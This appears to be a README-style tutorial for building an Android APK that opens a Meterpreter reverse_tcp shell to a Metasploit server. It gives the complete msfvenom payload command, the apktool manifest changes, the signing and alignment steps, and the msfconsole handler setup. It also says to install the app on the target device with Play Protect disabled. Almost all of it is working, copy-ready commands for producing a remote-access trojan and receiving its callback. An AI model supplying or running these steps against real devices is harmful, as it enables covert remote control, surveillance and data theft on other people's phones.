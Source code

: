 Building an app that opens reverse_tcp connection to metasploit server.  
1. Create raw payload apk using msfvenom
2. Update AndroidManifest.xml to make apk compatible with target android
	1. Decompile the apk
	2. Edit AndroidManifest.xml
	3. Recompile the apk
3. Sign the apk
4. Align the apk


## Creating payload apk

1. Creating raw payload apk using `msfvenom`:
```shell
sudo msfvenom -p android/meterpreter/reverse_tcp LHOST=<your-ip-address> LPORT=4444 R > raw.apk;
```

2. The above apk created by default targets lower SDK versions than those required by latest android version. To fix this we need to edit the `AndroidManifest.xml` file.
  
Decompiling apk using `apktool`:
```shell
# if not installed: `sudo apt install apktool`
apktool d raw.apk -o decompiled.apk
```
  
The above command creates a folder `decompiled.apk`.  
Inside it we find `AndroidManifest.xml` file, where we need to add:
```shell
<uses-sdk android:minSdkVersion="17" android:targetSdkVersion="23"/>
# if above values doesnt work for you, then check the android logs where error would describe mismatch;
# To check android logs:
#   1. Enable `developer options` on the android
#   2. Connect to the laptop and use `adb` to see the logs:
#         `adb logcat | grep PackageManager`
```
  
Recompile the apk:
```shell
apktool b decompiled.apk -o version_fixed.apk
```

3. Sign the apk. Without signing the apk cannot be installed.
```shell
# Generate keystore if you dont have one alread; this is one time thing
sudo keytool -genkey -V -keystore key.keystore -alias aliname -keyalg RSA -keysize 2048 validity 10000
# this generates keystore `key.store` in your current directory.
# Also remember the keystore password you have set.


# use jarsigner to sign the apk
# To install: `sudo apt-get install openjdk-11-jdk-headless`
sudo jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore key.keystore version_fixed.apk aliname

# to verify signing
sudo jarsigner -verify -verbose -certs version_fixed.apk
```

4. Align the apk using `zipalign`:
```shell
# If not installed: `sudo apt install zipalign`
zipalign -v 4 version_fixed.apk payload.apk

# verify
zipalign -c 4 payload.apk
# if its proper there would be no output
```

Thus we would have the final payload apk as `payload.apk`.  
Start the listening server (below section) then install the above apk in target android device, ensure to disable play-protect, security, etc as needed.  

## Start listening setup
Listening setup is done in `msfconsole`.  
```shell
# start msfconsole
sudo msfconsole

use exploit/multi/handler

set payload android/meterpreter/reverse_tcp

set LHOST <your-ip-address>  # that was set during payload creation

set LPORT 4444  # this is default value; also set during payload creation

exploit
# this starts listening server
# when user "opens" the apk, a rever_tcp connection is opened here
```

## Post exploitation
Once meterpreter session starts, in its terminal type `help` to get available commands.  
